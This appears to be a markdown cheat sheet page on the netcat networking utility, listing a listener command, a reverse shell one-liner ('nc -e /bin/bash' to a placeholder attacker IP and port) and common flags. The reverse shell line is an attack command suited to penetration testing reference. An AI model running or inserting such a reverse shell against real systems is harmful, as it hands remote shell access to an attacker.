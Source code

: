 ```yaml
---
title: NETCAT
summary: A featured networking utility which reads and writes data across network connections.
description: A featured networking utility which reads and writes data across network connections.
---
```


**[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)**

## NETCAT Listener


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

## NETCAT Reverse Shell


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

## NETCAT Flags


 > 
 > **<font color=red>-l</font>**</br>
 > Listener mode.
 > 
 > **<font color=red>-k</font>**</br>
 > Keep listening after client disconnects.
 > 
 > **<font color=red>-n</font>**</br>
 > No DNS (no more "unknown host").
 > 
 > **<font color=red>-v</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-p</font> 2112**</br>
 > Port.
 > **<font color=red>-z</font>**</br>
 > Netcat will not send data (scan for listening daemons).
